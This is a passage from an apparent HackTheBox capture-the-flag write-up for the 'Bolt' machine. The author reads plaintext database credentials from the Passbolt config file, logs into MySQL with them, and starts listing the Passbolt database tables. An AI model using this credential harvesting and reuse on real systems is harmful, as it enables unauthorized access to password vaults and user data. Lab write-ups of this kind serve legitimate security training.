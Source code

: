 On visiting `https://passbolt.bolt.htb` and entering `eddie@bolt.htb`, it
returns a different page:

![image-20210908203440001](https://0xdfimages.gitlab.io/img/image-20210908203440001.png)

My first thought is to check the `/var/mail/eddie` file, but there’s no new
email there.

Still, I can reconstruct the link that would have been send with database
access. The code in `/etc/passbolt/passbolt.php` was:

    
    
        // Database configuration.                                                     
        'Datasources' => [
            'default' => [
                'host' => 'localhost',
                'port' => '3306', 
                'username' => 'passbolt',
                'password' => 'rT2;jW7<eY8!dX8}pQ8%',
                'database' => 'passboltdb',
            ],
        ],
    

So I can connect with:

    
    
    eddie@bolt:~$ mysql -u passbolt -p'rT2;jW7<eY8!dX8}pQ8%' passboltdb
    ...[snip]...
    mysql> 
    

There are a handful of tables:

    
    
    mysql> show tables;
    +-----------------------+
    | Tables_in_passboltdb  |
    +-----------------------+
    | account_settings      |
    | action_logs           |
    | actions               |
    | authentication_tokens |
    | comments              |
    | email_queue           |
    | entities_history      |
    | favorites             |
    | file_storage          |
    | gpgkeys               |
    | groups                |
    | groups_users          |
    | organization_settings |
    | permissions           |
    | permissions_history   |
    | phinxlog              |